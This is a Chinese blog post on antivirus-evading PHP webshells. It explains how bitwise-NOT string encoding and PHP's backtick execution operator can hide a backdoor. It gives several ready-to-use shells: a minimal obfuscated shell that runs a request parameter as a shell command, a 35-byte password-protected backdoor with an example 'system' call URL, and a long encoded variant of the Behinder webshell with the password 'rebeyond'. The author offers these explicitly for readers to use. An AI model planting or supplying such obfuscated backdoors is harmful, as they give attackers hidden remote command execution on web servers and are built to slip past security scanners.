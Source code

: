 # 过D小技巧--DLC

发完文章后发现反响好像还行，就想着要不再整点压箱底的东西(继续水一篇)，在上班摸鱼之时水篇笔记于是就有了此`DLC`。下面就简单地介绍一下该小技巧的原理。

https://twitter.com/terjanq/status/1258451658645913601

# 变形免杀马

![](1.jpg)

使用非字母数字字符编写的微型反向shell

大伙们肯定很好奇，这什么玩意？PHP害能解析这玩意？听我慢慢讲解

我进行了稍微的变形方便大家使用
```php
<?=`{${~"\xa0\xb8\xba\xab"}[1]}`;
//1=whoami


<?=$_GET[p]==_&&$_GET[f]($GET_[c])

35 bytes PHP backdoor protected by a password, supports arbitrary function calls.

/backdoored.php?p=_&f=system&c=ls
```
![](2.png)

# php的奇怪解析特性

PHP的奇怪函数：

1. PHP取反

`~` 在 {} 中执行了取反操作，所以 `~"\xa0\xb8\xba\xab"` 取反相当于 十六进制的
`$_GET`，从而拼接出了函数并进行get读取。

![](3.png)

![](4.png)

后面的一串字符就是取反后的hex，我们对字符串进行处理后康康能不能正常输出。

> 悄咪咪给自家项目打个广告：主要实现功能在加解密和编码这块，挺好用的。
https://github.com/ffffffff0x/BerylEnigma

咱使用eval调用该取反后的16进制文件。

![](5.png)

```php
<?php
$s = "\x8f\x97\x8f\x96\x91\x99\x90\xd7\xd6\xc4";
eval(~$s)
?>
```

函数成功执行。这就很好解释这种取操作的关系

```php
${~"\xa0\xb8\xba\xab"}["1"] => ${_GET}["1"] => $_GET["1"]
```

2. 执行运算符

PHP 支持一个执行运算符：反引号`（``）`。

注意这不是单引号！PHP 会尝试将反引号中的内容作为 shell 命令来执行，并将其输出信息返回：
例如：

```php
<?php
$cmd = `whoami`;
echo "<pre>$cmd</pre>";
?>
```
![](6.png)

使用执行运算符 `(``)` 的效果与函数 shell_exec() 相同。所以继续解析代码

```php
`{$_GET["1"]}` => shell_exec($_GET["1"])
```

组合后就变成了上文中的简短免杀马。

我就尝试用这种方法随便做了个绕过去做个冰蝎的变形马：

![](7.png)

```php
<?php
// pass=rebeyond
$a = ~"\xbf\x9a\x8d\x8d\x90\x8d\xa0\x8d\x9a\x8f\x90\x8d\x8b\x96\x91\x98\xd7\xcf\xd6\xc4\x8c\x9a\x8c\x8c\x96\x90\x91\xa0\x8c\x8b\x9e\x8d\x8b\xd7\xd6\xc4\xdf\xdf\xdf\xdf\xdb\x94\x9a\x86\xc2\xdd\x9a\xcb\xca\x9a\xcc\xcd\xc6\x99\x9a\x9d\xca\x9b\xc6\xcd\xca\x9d\xdd\xc4\xdb\xa0\xac\xba\xac\xac\xb6\xb0\xb1\xa4\xd8\x94\xd8\xa2\xc2\xdb\x94\x9a\x86\xc4\xdb\x8f\x90\x8c\x8b\xc2\x99\x96\x93\x9a\xa0\x98\x9a\x8b\xa0\x9c\x90\x91\x8b\x9a\x91\x8b\x8c\xd7\xdd\x8f\x97\x8f\xc5\xd0\xd0\x96\x91\x8f\x8a\x8b\xdd\xd6\xc4\x96\x99\xd7\xde\x9a\x87\x8b\x9a\x91\x8c\x96\x90\x91\xa0\x93\x90\x9e\x9b\x9a\x9b\xd7\xd8\x90\x8f\x9a\x91\x8c\x8c\x93\xd8\xd6\xd6\x84\xdb\x8b\xc2\xdd\x9d\x9e\x8c\x9a\xc9\xcb\xa0\xdd\xd1\xdd\x9b\x9a\x9c\x90\x9b\x9a\xdd\xc4\xdb\x8f\x90\x8c\x8b\xc2\xdb\x8b\xd7\xdb\x8f\x90\x8c\x8b\xd1\xdd\xdd\xd6\xc4\x99\x90\x8d\xd7\xdb\x96\xc2\xcf\xc4\xdb\x96\xc3\x8c\x8b\x8d\x93\x9a\x91\xd7\xdb\x8f\x90\x8c\x8b\xd6\xc4\xdb\x96\xd4\xd4\xd6\xdf\x84\xdf\xdf\xdf\xdf\xdf\xdb\x8f\x90\x8c\x8b\xa4\xdb\x96\xa2\xdf\xc2\xdf\xdb\x8f\x90\x8c\x8b\xa4\xdb\x96\xa2\xa1\xdb\x94\x9a\x86\xa4\xdb\x96\xd4\xce\xd9\xce\xca\xa2\xc4\xdf\xdf\xdf\xdf\xdf\x82\x82\x9a\x93\x8c\x9a\x84\xdb\x8f\x90\x8c\x8b\xc2\x90\x8f\x9a\x91\x8c\x8c\x93\xa0\x9b\x9a\x9c\x8d\x86\x8f\x8b\xd7\xdb\x8f\x90\x8c\x8b\xd3\xdf\xdd\xbe\xba\xac\xce\xcd\xc7\xdd\xd3\xdf\xdb\x94\x9a\x86\xd6\xc4\x82\xdf\xdf\xdf\xdf\xdb\x9e\x8d\x8d\xc2\x9a\x87\x8f\x93\x90\x9b\x9a\xd7\xd8\x83\xd8\xd3\xdb\x8f\x90\x8c\x8b\xd6\xc4\xdf\xdf\xdf\xdf\xdb\x99\x8a\x91\x9c\xc2\xdb\x9e\x8d\x8d\xa4\xcf\xa2\xc4\xdf\xdf\xdf\xdf\xdb\x8f\x9e\x8d\x9e\x92\x8c\xc2\xdb\x9e\x8d\x8d\xa4\xce\xa2\xc4\x9c\x93\x9e\x8c\x8c\xdf\xbc\x84\x8f\x8a\x9d\x93\x96\x9c\xdf\x99\x8a\x91\x9c\x8b\x96\x90\x91\xdf\xa0\xa0\x96\x91\x89\x90\x94\x9a\xd7\xdb\x8f\xd6\xdf\x84\x9a\x89\x9e\x93\xd7\xdb\x8f\xd1\xdd\xdd\xd6\xc4\x82\x82\xdf\xdf\xdf\xdf\xbf\x9c\x9e\x93\x93\xa0\x8a\x8c\x9a\x8d\xa0\x99\x8a\x91\x9c\xd7\x91\x9a\x88\xdf\xbc\xd7\xd6\xd3\xdb\x8f\x9e\x8d\x9e\x92\x8c\xd6\xc4";
sprintf("123");
define("Test", "$a",true);
eval(TesT);
```

![](8.PNG)

##  结语

随着PHP8的更新，相信之后PHP会有更多的绕过方法，虽然删了很多bypass的技巧，但是PHP在有漏洞方面肯定不会让人失望的！希望大家可以变得更强！

---

> 本文作者 FFFFFFFF0X-XiDanEr